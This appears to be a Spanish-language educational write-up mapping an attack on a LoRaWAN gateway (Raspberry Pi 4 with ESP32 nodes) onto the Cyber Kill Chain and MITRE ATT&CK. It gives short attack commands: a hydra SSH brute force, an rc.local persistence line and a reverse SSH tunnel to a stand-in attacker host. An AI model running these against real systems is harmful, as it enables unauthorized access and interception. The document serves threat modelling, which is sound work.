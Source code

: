 # Cyber Kill Chain - Ataque a Infraestructura LoRaWAN con Raspberry Pi y ESP32

## Introducción

Las redes **LoRaWAN** (Long Range Wide Area Network) son utilizadas para conectar dispositivos IoT en grandes áreas con bajo consumo de energía. Estas redes suelen emplear **cifrado AES-128** para proteger la comunicación entre los nodos y el servidor, pero aún pueden ser vulnerables a diversos ataques si no se implementan adecuadas medidas de seguridad.


## Objetivo

El propósito de este análisis es demostrar cómo un atacante podría interceptar los datos transmitidos por dispositivos finales LoRaWAN (basados en ESP32 con chip SX1307) o tomar control del gateway (en este caso, un Raspberry Pi 4) para redirigir el tráfico a servidores maliciosos o acceder a las claves de descifrado almacenadas en el dispositivo. A través del modelo Cyber Kill Chain, se ejemplificará cómo se puede comprometer la infraestructura, manipular las comunicaciones y exponer las debilidades en la implementación de seguridad de una red LoRaWAN privada.

### Posibles vulnerabilidades en LoRaWAN
1. **Ataques de repetición**: Un atacante puede capturar paquetes LoRa y retransmitirlos para ejecutar comandos falsos.
2. **Compromiso del gateway**: Si un atacante obtiene acceso al Raspberry Pi que actúa como gateway, puede manipular el tráfico LoRaWAN.
3. **Robo de claves de sesión**: Si el atacante obtiene las claves de cifrado, puede descifrar la comunicación LoRaWAN.
4. **Ataques de denegación de servicio (DoS)**: Mediante interferencia de radio o saturación de paquetes, se puede bloquear la red.

En este documento, describimos cómo un atacante podría comprometer un **Raspberry Pi 4**, que actúa como gateway LoRaWAN, con el objetivo de interceptar, modificar o falsificar la comunicación entre los nodos **ESP32 con SX1307** y el servidor LoRaWAN privado. Seguiremos las fases del modelo **Cyber Kill Chain**, detallando los métodos utilizados en cada etapa y cómo se llevaría a cabo el ataque.

### ¿Qué es un SDR?
Un **Software Defined Radio (SDR)** es un dispositivo que permite la captura y análisis de señales de radio utilizando software en lugar de hardware especializado. Los SDR son herramientas poderosas para evaluar la seguridad de redes inalámbricas como LoRaWAN, permitiendo a un atacante capturar paquetes, analizar señales y realizar ataques de replay o manipulación de datos.

#### Captura de señal LoRaWAN con SDR
![Captura de señal LoRaWAN](img/sdr.jpg)

#### Dispositivo de análisis de redes LoRaWAN
Un atacante puede usar dispositivos como el **RAK10701 Field Tester**, que permite detectar nodos LoRaWAN conectados a un gateway y analizar sus transmisiones.

![RAK10701 Field Tester](img/lorawanTester.png)

Más información sobre este dispositivo en: [RAK10701 Field Tester](https://store.rakwireless.com/products/field-tester-for-lorawan-rak10701)

---

## Cyber Kill Chain - Fases del Ataque

### 1. Reconocimiento (Reconnaissance)  
- **[T1595 - Active Scanning](https://attack.mitre.org/techniques/T1595/):**  
  - Escaneo de redes WiFi o Ethernet para identificar la Raspberry Pi y otros dispositivos en la red.  
  - Uso de `nmap` para detectar puertos abiertos (**22 SSH**, **1700 UDP LoRaWAN**).  
  ```bash
  nmap -sP 192.168.1.0/24
  ```
- **[T1590.002 - Gather Victim Network Information](https://attack.mitre.org/techniques/T1590/002/):**  
  - Identificación de servidores LoRaWAN privados.  
  - Análisis de tráfico LoRaWAN con SDR (Software Defined Radio).  

---

### 2. Armamento (Weaponization)  
- **[T1587.001 - Develop Capabilities: Malware](https://attack.mitre.org/techniques/T1587/001/):**  
  - Creación de malware para explotar vulnerabilidades en el Raspberry Pi.  
- **[T1203 - Exploitation for Client Execution](https://attack.mitre.org/techniques/T1203/):**  
  - Desarrollo de exploits para vulnerabilidades en el software del gateway.  
  - Creación de payloads maliciosos para obtener acceso remoto.  

---

### 3. Entrega (Delivery)  
- **[T1566.001 - Phishing: Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001/):**  
  - Envío de correos electrónicos con archivos adjuntos maliciosos a los administradores del gateway.  
- **[T1021.004 - Remote Services: SSH](https://attack.mitre.org/techniques/T1021/004/):**  
  - Ataques de fuerza bruta a SSH con `hydra`.  
  ```bash
  hydra -l pi -P rockyou.txt ssh://192.168.1.10
  ```

---

### 4. Explotación (Exploitation)  
- **[T1068 - Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/):**  
  - Uso de exploits para obtener privilegios de root en el Raspberry Pi.  
- **[T1203 - Exploitation for Client Execution](https://attack.mitre.org/techniques/T1203/):**  
  - Ejecución de código remoto aprovechando vulnerabilidades.  

---

### 5. Instalación (Installation)  
- **[T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/):**  
  - Modificación de archivos de inicio para ejecución persistente del malware.  
  ```bash
  echo '/home/pi/malware.sh' >> /etc/rc.local
  ```
- **[T1554 - Compromise Client Software Binary](https://attack.mitre.org/techniques/T1554/):**  
  - Alteración de software legítimo del gateway para incluir código malicioso.  

---

### 6. Comando y Control (C2)  
- **[T1572 - Protocol Tunneling](https://attack.mitre.org/techniques/T1572/):**  
  - Uso de túneles SSH inversos para mantener acceso persistente.  
  ```bash
  ssh -R 9000:localhost:22 atacante@servidor.com
  ```
- **[T1102 - Web Service](https://attack.mitre.org/techniques/T1102/):**  
  - Uso de servicios como Telegram o Discord para recibir comandos.  

---

### 7. Acciones sobre Objetivos (Actions on Objectives)  
- **[T1071.001 - Application Layer Protocol: Web Protocols](https://attack.mitre.org/techniques/T1071/001/):**  
  - Captura y análisis de tráfico LoRaWAN.  
  ```bash
  tcpdump -i wlan0 port 1700
  ```
- **[T1565.002 - Data Manipulation: Transmitted Data Manipulation](https://attack.mitre.org/techniques/T1565/002/):**  
  - Modificación de datos LoRaWAN antes de ser reenviados al servidor.  
- **[T1498 - Network Denial of Service](https://attack.mitre.org/techniques/T1498/):**  
  - Saturación de la red con paquetes falsos para interrumpir la comunicación.  

---

